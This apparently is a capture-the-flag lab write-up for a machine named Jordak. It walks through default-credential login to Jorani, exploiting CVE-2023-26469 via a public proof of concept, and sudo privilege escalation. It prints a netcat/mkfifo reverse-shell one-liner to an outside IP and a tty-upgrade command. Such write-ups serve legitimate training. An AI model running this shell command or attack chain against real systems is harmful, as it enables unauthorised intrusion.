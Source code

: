 # Jordak

So i start enumeration and find 2 open ports:

<figure><img src="../../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

On the webpage, we see a normal apache server webpage, and after fuzzing for a bit, we find a .git directory that redirects us to this page:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I go on internet and look for default credentials:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and i manage to login:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I see that it is Jorani V1, so i look for exploits that i can maybe leverage and end up on this CVE:

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2023-26469" %}

I tried soe POCs and the one from orangecyberdefense was the best in my opinion:

{% embed url="https://github.com/Orange-Cyberdefense/CVE-repository/blob/master/PoCs/CVE_Jorani.py" %}

It gave me a pseudo term:&#x20;

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I can catch my local.txt flag with ease but the shell is very restrictive so i go and get a reverse shell with the following command:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.54 1234 >/tmp/f
```

and upgrade my low interactive shell with a full tty command:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

then i look at my sudo rights:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and see that there are exploits to elevate our shell:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and we adapt the command to fit to our rights and bam:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Onto the next one

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
